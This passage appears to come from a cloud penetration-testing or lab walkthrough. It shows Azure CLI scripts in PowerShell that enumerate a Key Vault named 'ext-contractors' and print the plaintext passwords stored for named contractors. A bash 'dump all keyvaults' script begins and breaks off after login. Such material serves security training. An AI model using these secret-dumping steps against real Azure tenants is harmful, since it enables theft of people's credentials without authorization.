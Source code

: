 
### 2.4.2 Retrieve Password with Powershell
Or we can automate this with powershell. 
```powershell
# Set variables
$VaultName = "ext-contractors"

# Set the current Azure subscription
$SubscriptionID = "ceff06cb-e29d-4486-a3ae-eaaec5689f94"
az account set --subscription $SubscriptionID

# List and store the secrets
$secretsJson = az keyvault secret list --vault-name $VaultName -o json
$secrets = $secretsJson | ConvertFrom-Json

# List and store the keys
$keysJson = az keyvault key list --vault-name $VaultName -o json
$keys = $keysJson | ConvertFrom-Json

# Output the secrets
Write-Host "Secrets in vault $VaultName"
foreach ($secret in $secrets) {
    Write-Host $secret.id
}

# Output the keys
Write-Host "Keys in vault $VaultName"
foreach ($key in $keys) {
    Write-Host $key.id
}
```
```powershell
# Set variables
$VaultName = "ext-contractors"
$SecretNames = @("alissa-suarez", "josh-harvey", "ryan-garcia")

# Set the current Azure subscription
$SubscriptionID = "ceff06cb-e29d-4486-a3ae-eaaec5689f94"
az account set --subscription $SubscriptionID

# Retrieve and output the secret values
Write-Host "Secret Values from vault $VaultName"
foreach ($SecretName in $SecretNames) {
    $secretValueJson = az keyvault secret show --name $SecretName --vault-name $VaultName -o json
    $secretValue = ($secretValueJson | ConvertFrom-Json).value
    Write-Host "$SecretName - $secretValue"
}
```
### 2.4.3 Retrieve password with bash
https://cloud.hacktricks.xyz/pentesting-cloud/azure-security/az-services/keyvault#enumeration
```bash
#!/bin/bash

# Dump all keyvaults from the subscription

# Define Azure subscription ID
AZ_SUBSCRIPTION_ID="your-subscription-id"

# Specify the filename for output
CSV_OUTPUT="vault-names-list.csv"

# Login to Azure account
az login

```